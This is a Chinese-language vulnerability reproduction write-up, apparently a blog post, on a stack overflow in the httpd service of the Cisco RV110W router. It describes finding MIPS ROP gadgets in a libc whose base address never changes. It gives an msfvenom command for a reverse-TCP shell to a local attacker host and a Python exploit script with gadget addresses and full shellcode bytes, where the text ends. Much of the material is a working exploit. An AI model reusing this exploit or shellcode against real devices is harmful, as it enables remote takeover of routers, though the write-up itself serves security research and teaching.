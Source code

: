 ##### 漏洞实施

因为mips 架构下不支持NX，所以可以使用shellcode
由于sscanf栈溢出，所以不能有空字节，而程序本身的gadget都带有空字节
考虑使用libc下的gadget

有一个点，它的libc基址每次都不变，一直都是2af98000

    思科的这个设备，httpd进程的libc基址就是2af98000，无论你是重启进程，还是升级版本，这个基址都不变

    问了常老师，再次猜测可能是为了效率，编译的时候就把内核的这个功能干掉了，或者当前平台压根就不支持这个功能。先存疑，总之我们发现动态库的基址都是不变的，故我们可以使用程序加载的动态库中的gadget。

于是我们使用mipsrop来查找gadget
mipsrop是ida的比较好用的一个插件

    mipsrop.help() #用来查看用法
    mipsrop.stackfinders() # 跳转到栈所示地址的gadget

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/26.png)

这两天gadget是有用的

    |  0x000257A0  |  addiu $a0,$sp,0x58+var_40  |  jalr  $s0  |
    |  0x0003D050  |  move $t9,$a0  |  jalr  $a0  |


接下来是编写shellcode

编写shellcode可以使用msf中的msfvenom来编写

使用如下命令

    msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=192.168.1.102 LPORT=8888 --arch mipsle --platform linux -f py -o shellcode.py 

可以看到shellcode.py中就有shellcode
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/27.png)


##### exp


    import requests
    from pwn import *

    context(arch='mips',endian='little',os='linux')

    libc = 0x2af98000
    jmp_a0 = libc + 0x0003D050  # move  $t9,$a0             ; jalr  $a0
    jmp_s0 = libc + 0x000257A0  # addiu $a0,$sp,0x38+var_20 ; jalr  $s0
    buf =  b""
    buf += b"\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd"
    buf += b"\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01"
    buf += b"\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f"
    buf += b"\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x22\xb8\x0e\x3c"
    buf += b"\x22\xb8\xce\x35\xe4\xff\xae\xaf\x01\x66\x0e\x3c\xc0"
    buf += b"\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff"
    buf += b"\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01"
    buf += b"\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f"
    buf += b"\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
    buf += b"\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff"
    buf += b"\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf"
    buf += b"\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
    buf += b"\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc"
    buf += b"\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01"
    buf += b"\x01\x01"
